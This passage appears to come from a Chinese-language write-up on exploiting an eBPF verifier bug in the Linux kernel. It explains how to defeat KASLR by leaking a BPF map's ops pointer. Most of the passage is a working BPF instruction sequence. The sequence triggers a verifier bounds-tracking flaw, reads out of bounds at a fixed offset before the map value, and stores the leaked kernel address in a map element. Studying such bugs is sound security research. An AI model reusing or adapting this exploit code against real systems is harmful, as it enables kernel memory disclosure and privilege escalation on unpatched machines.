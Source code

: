 其中最重要的一个成员就是`ops`，它指向了一个虚拟函数表，取决于map的类型。

例如有`array_map_ops/cpu_map_ops/dev_map_ops...`，这些结构体都位于`.rodata`，并且在`/proc/kallsyms`中有对应的导出符号，泄漏这些地址可以用于绕过KALSR.

`map_lookup_elem`我们可以获取任意一个map里elem的地址即`bpf_array.value`的地址，通过偏移计算（&value[0] - 0x110）可以得到ops地址。

下述代码可以将`ops`地址存储在map.elem[4]中

```
	struct bpf_insn prog[] = {

		BPF_LD_MAP_FD(BPF_REG_9, mapfd),

		// {mask=0x0, value=0x1000000002}
		BPF_LD_IMM64(BPF_REG_8, 0x1),					// r8 = 0x1
		BPF_ALU64_IMM(BPF_LSH, BPF_REG_8, 32),			// r8 <= 32 	== 0x10000 0000
		BPF_ALU64_IMM(BPF_ADD, BPF_REG_8, 2),			// r8 += 2  	== 0x10000 0000 2

		BPF_MAP_GET(0, BPF_REG_5),						// r5 = map.elem[0]
		BPF_MOV64_REG(BPF_REG_6, BPF_REG_5),			// r6 = r5

		BPF_MOV64_IMM(BPF_REG_2, 0xffffffff),			// r2 = 0xffffffff
		BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),			// r2 <= 32 	== 0xffffffff 00000000
		BPF_ALU64_IMM(BPF_AND, BPF_REG_6, BPF_REG_2),	// r6 &= r2   ;	high32 unkown, low 32 known

		BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, 0x1),			// r6.var_off = {mask=0xffffffff 00000000, value=0x01}
		
		//	Trigger the vuln
		BPF_ALU64_IMM(BPF_AND, BPF_REG_6, BPF_REG_8),		// r6 &= r8;	r6.umin_value=0x1; r6.umax_value=0x0

		BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, 1),			// r6 += 1; .umin_value=0x2; umax_value=0x1;
		BPF_JMP32_IMM(BPF_JLE, BPF_REG_5, 1, 1),		// if r5 <= 1 goto pc+1; 
			BPF_EXIT_INSN(),							// r5.umin_value = 0x0, umax_value=0x1
			BPF_ALU64_REG(BPF_ADD, BPF_REG_6, BPF_REG_5), // r6 +=r5 umin_value=umax_value=0x2
			// only take low 32 bits
			BPF_MOV32_REG(BPF_REG_6, BPF_REG_6),		// r6=r6 	; only low 32bits
			BPF_ALU64_IMM(BPF_AND, BPF_REG_6, 1),		// verify: 0  runtime: 1

		// read kalsr(op=0)	ops地址在&value[0] - 0x110处
        BPF_MAP_GET(1, BPF_REG_7),						// 30: (79) r7 = *(u64 *)(r0 +0)
        BPF_JMP_IMM(BPF_JNE, BPF_REG_7, 0, 23),			// 32: (55) if r7 != 0x0 goto pc+23
		BPF_ALU64_IMM(BPF_MUL, BPF_REG_6, 0x110),		// 33: (27) r6 *= 272
		BPF_MAP_GET_ADDR(0, BPF_REG_7),					// 41: (bf) r7 =map_value(id=0,off=0,ks=4,vs=8,imm=0) R7=invP0 R8=invP0 R9=ma?
		BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_6),	// 43: (1f) r7 -= r6
		BPF_LDX_MEM(BPF_DW, BPF_REG_8, BPF_REG_7, 0),	// 44: (79) r8 = *(u64 *)(r7 +0)
		BPF_MAP_GET_ADDR(4, BPF_REG_6),					
		BPF_STX_MEM(BPF_DW, BPF_REG_6, BPF_REG_8, 0),	// 54: (7b) *(u64 *)(r6 +0) = r8
		BPF_EXIT_INSN(),

	BPF_EXIT_INSN(),
	};
```
